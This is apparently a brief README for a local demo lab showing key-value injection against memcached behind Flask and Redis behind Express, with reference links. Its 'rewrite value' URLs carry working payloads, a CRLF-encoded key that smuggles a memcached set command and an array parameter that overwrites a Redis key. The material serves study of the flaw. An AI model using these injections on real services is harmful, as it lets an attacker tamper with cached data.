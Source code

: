 Flask - memcached

Set default value - http://127.0.0.1:8800/api/set?key=pewpew

Get value - http://127.0.0.1:8800/api/get?key=pewpew

Rewrite value - http://127.0.0.1:8800/api/set?key=a%0d%0a1%0d%0aset%20pewpew%200%203600%205%0d%0apwned%0d%0a

Express - Redis

Set default value - http://127.0.0.1:8801/query?key=pewpew

Get value - http://127.0.0.1:8801/?key=pewpew

Rewrite value - http://127.0.0.1:8801/query?key[]=pewpew&key[]=pwned




https://medium.com/@d0znpp/ssrf-memcached-and-other-key-value-injections-in-the-wild-c8d223bd856f
https://www.exploit-db.com/exploits/37815
https://medium.com/@PatrickSpiegel/https-medium-com-patrickspiegel-nosql-injection-redis-25b332d09e58
